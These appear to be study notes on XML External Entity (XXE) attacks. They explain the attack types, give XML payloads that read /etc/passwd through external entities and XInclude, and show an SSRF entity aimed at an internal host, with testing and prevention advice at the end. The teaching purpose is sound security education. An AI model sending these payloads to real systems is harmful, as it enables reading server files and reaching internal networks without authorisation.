 --- ---

<h4>What is XXE?</h4>  

![](https://assets.tryhackme.com/additional/cmn-owasptopten/XXE_600x315.png)

XXE stands for XML External Entity. It is a type of vulnerability that allows an attacker to access sensitive data by injecting external entities into an XML document. This can be used to retrieve data from the targeted system, such as files or network resources, or even to execute arbitrary code. It is important to properly validate and sanitize XML input in order to prevent XXE attacks.

An XML External Entity (XXE) attack is a vulnerability that abuses features of XML parsers/data. It often allows an attacker to interact with any backend or external systems that the application itself can access and can allow the attacker to read the file on that system. They can also cause Denial of Service (DoS) attack or could use XXE to perform Server-Side Request Forgery (SSRF) inducing the web application to make requests to other applications. XXE may even enable port scanning and lead to remote code execution.  
  
Types of XXE Attacks:
- Exploiting XXE to retrieves files
- Exploiting XXE to perform SSRF attacks
- Exploiting blind XXE to exfiltrate data out-of-band
- Exploiting blind XXE to retrieve data via error messages
  
- Why we use XML?  
  
	1. XML is platform-independent and programming language independent, thus it can be used on any system and supports the technology change when that happens.  
  
	1. The data stored and transported using XML can be changed at any point in time without affecting the data presentation.  
  
	3. XML allows validation using DTD and Schema. This validation ensures that the XML document is free from any syntax error.  
  
	4. XML simplifies data sharing between various systems because of its platform-independent nature. XML data doesn’t require any conversion when transferred between different systems.  
  
- Syntax  
  
	Every XML document mostly starts with what is known as XML Prolog.  

	```Terminal
	<?xml version="1.0" encoding="UTF-8"?>
	```
--- ---

<h4>Exploiting XXE to Retrieve Files</h4>

- Need to modify submitted XML in two ways
	- Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to a file.
	- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

- Example -- shopping application checking for stock by submitting the following XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId><
/stockCheck>
```

- Exploit
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM
"file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></st
ockCheck>
```

Define an external entity (&xxe;) whose value is the contents of /etc/passwd and uses the entity within the productId value.

--- ---

<h2>Exploiting XXE to Perform SSRF Attacks</h2>

- Need to do the following:
	- Define an external XML entity using the URL you want to target
	- Use the defined entity within a data value

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM " http://internal.vulnerable-
website.com/"> ]>
```
--- ---

<h2>Blind XXE Vulnerabilities</h2>

This means that the application does not return the values of any defined external entities in its responses, and so direct retrieval of server-side files is not possible.

XInclude Attacks
- Server steps
	- Application receives client-submitted data
	- Data is embedded on the server-side into an XML document
	- Document is then parsed

- XInclude
	- Part of the XML specification that allows an XML document to be built from sub-documents
	- Need to reference the XInclude namespace and provide the path to the file that you wish to include

```xml
<foo 
xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text"
href="file:///etc/passwd"/></foo>
```


More info about XML Injection ---> [HERE]([[3 - XML]])

--- ---

<h2>XXE Attacks via File Upload</h2>

- If a server allows the upload of DOCX or SVG, XXE can be embedded in these documents
- When the document is processed by the application, it will trigger the exploit XXE Attack via Modified Content Type

- Normal Request example:
```xml
POST /action HTTP/1.0
Content-Type: application/x-www-form-
urlencoded
Content-Length: 7
foo=bar
```

- If the server tolerates this, you can exploit it
```xml
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52
<?xml version="1.0" encoding="UTF-
8"?><foo>bar</foo>
```

--- ---

<h2>Testing & Prevention</h2>

**How to Find and Test for XXE vulnerabilities**
- Use BurpSuite's Web Vulnerability Scanner
- Manually testing involves the following:
	- Testing for file retrieval by defining an external entity based on a well-known OS file
	- Testing for blind XXE by defining an external entity based on a URL to a system you control
		§ Burp Collaborator Client can be used for this
	- Testing for vulnerab inclusion of user-supplied non-XML data within a server-side XML document by using an XInclude attack

**How to Prevent XXE Vulnerabilities**
- Disable features that allow an application's XML parsing library to support potentially dangerous XML features that the application does not need
- Disable resolution of external entities
- Disable support for XInclude
	- Done via configuration options or programmatically overriding default behavor.

 --- ---

<h2>Top Injection</h2>

Detect the vulnerability

Basic entity test, when the XML parser parses the external entities the result should contain "John" in `firstName` and "Doe" in `lastName`. Entities are defined inside the `DOCTYPE` element.

```Terminal
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```
---
Types of XXE Attacks:
- Exploiting XXE to retrieves files                                                    
- Exploiting XXE to perform SSRF attacks                                       
- Exploiting blind XXE to exfiltrate data out-of-band                   
- Exploiting blind XXE to retrieve data via error messages             
---
